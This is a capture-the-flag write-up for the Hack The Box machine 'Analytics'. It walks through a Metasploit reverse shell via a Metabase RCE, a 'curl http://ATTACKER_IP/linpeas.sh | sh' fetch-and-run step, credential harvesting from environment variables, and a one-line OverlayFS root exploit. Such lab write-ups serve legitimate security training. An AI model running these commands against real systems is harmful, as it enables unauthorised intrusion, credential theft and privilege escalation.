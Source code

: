 # Analytics

A writeup for the machine [Analytics](https://app.hackthebox.com/machines/Analytics) on Hack The Box.

<Image src={require("./banner.webp").default} height="500" />

## Footprinting

### Nmap scans

Firstly, we can start with a nmap scan.

We find two open ports with one web servers publicly accessible.

```bash
nmap -sS <HOST>
```

```
22 -> SSH
80 -> HTTP
```

<Image src={require("./nmap.webp").default} />

### Web server

To access the web server, we need to update the `/etc/hosts` file with the machine IP.

```
echo "10.10.11.233 analytics.htb" >> /etc/hosts
```

The web server is running a simple website with an home page and a login page.

<Image src={require("./homepage.webp").default} />

If we try to open the login page we are redirected to a new subdomain `data.analytics.htb`.

After updating again the hosts file, we can access the login page.

The login page is running a `Metabase` instance, an open-source web analytics platform.

<Image src={require("./login.webp").default} />

## User flag

### Exploiting Metabase

If we look to the source code of the login page, we can find some interesting information of the service.

One of the details contains the version of the `Metabase` instance.

<Image src={require("./metabase-version.webp").default} />

By searching online for this specifc version, we can find a RCE vulnerability and an Metasploit exploit for it.

[https://nvd.nist.gov/vuln/detail/CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)

[https://packetstormsecurity.com/files/174091/Metabase-Remote-Code-Execution.html](https://packetstormsecurity.com/files/174091/Metabase-Remote-Code-Execution.html)

```bash
msfconsole
use exploit/multi/http/metabase_unauth_rce
set RHOSTS data.analytics.htb
set RPORT 80
set LHOST ATTACKER_IP
run
```

After running the exploit, we can get a reverse shell as the `metabase` user.

```bash
whoami
```

<Image src={require("./reverse-shell.webp").default} />

### From metabase to user

Once inside the machine, we discover that we are in a docker container.

We can still try to find some interesting information to escalate our privileges.

One possible way is to run `linpeas`.

```bash
# attacker
python3 -m http.server 80
# target
curl http://ATTACKER_IP/linpeas.sh | sh
```

Inside the environment variables, we can find a username and a password for the `metalytics` user.

```bash
echo $META_USER
echo $META_PASS
```

<Image src={require("./env-vars.webp").default} />

### Accessing with SSH

We can use the credentials that we found in the previous step to login via SSH.

```bash
ssh metalytics@TARGET_IP
```

After logging in, we can find the user flag inside the home directory.

```bash
cat user.txt
```

<Image src={require("./user-flag.webp").default} height="512" />

## Root flag

### Enumerating the environment

Now that we are inside the system, we can start to look for a way to escalate our privileges.

Nothing interesting is found in the home directory or in the user's history.

We can again use `linpeas` to find additional information.

As before, we can serve the script on our local machine and download it on the target.

Even in this case, nothing interesting is found.

### Exploiting CVE-2023-2640

Because we didn't find anything useful, we can start looking for possible vulnerabilities in the system.

To do so, we can start by checking the version of the operating system.

```bash
cat /etc/os-release
```

<Image src={require("./ubuntu-version.webp").default} />

By searching online we can see that this version is vulnerable to the OverlayFS vulnerability.

[https://nvd.nist.gov/vuln/detail/CVE-2023-2640](https://nvd.nist.gov/vuln/detail/CVE-2023-2640)

A simple exploit can allow us to run commands as root.

It is enough to execute the following command to get the root flag.

[https://github.com/luanoliveira350/GameOverlayFS/blob/main/gameoverlay.sh](https://github.com/luanoliveira350/GameOverlayFS/blob/main/gameoverlay.sh)

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("ls /root")'
```

Be careful, it should be run as a single command or run it through a script.

<Image src={require("./root.webp").default} />

